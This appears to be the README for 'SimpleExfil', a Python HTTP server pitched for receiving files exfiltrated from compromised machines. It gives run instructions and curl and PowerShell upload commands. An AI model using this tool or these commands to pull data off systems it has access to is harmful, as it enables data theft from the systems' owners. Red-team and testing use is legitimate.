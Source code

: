 # SimpleExfil

SimpleExfil lets you exfiltrate your files. This server accepts and stores files sent through HTTP POST requests, ideal for operations requiring file uploads from compromised machines or remote systems. It's lightweight, easy to deploy, and listens on a customizable port.

## Requirements

- Python 3.x

## Usage

Start the server by specifying the desired port as an argument. If no port is specified, it defaults to 8000. You can optionally specify the directory where uploaded files will be stored. If omitted, the server uses the current directory or the path provided in the `UPLOAD_DIR` environment variable.

```
python simpleexfil.py [PORT] [UPLOAD_DIR]
```

Alternatively, set the `UPLOAD_DIR` environment variable to control the
destination folder without passing it as an argument.

To upload a file, use `curl` from the command line, PowerShell, or any suitable HTTP client. Example for uploading `example.txt`:

```
curl -F "file=@example.txt" http://127.0.0.1:8000
```
Note that this only works with actual `curl`, so this command might not work in PowerShell.

To upload a file using PowerShell you can use the following (may not be very reliable):
```
(New-Object System.Net.WebClient).UploadFile("http://127.0.0.1:8000", "C:\tmp\example.txt")
```

Server can also be accessed on the browser for a classic upload UI.
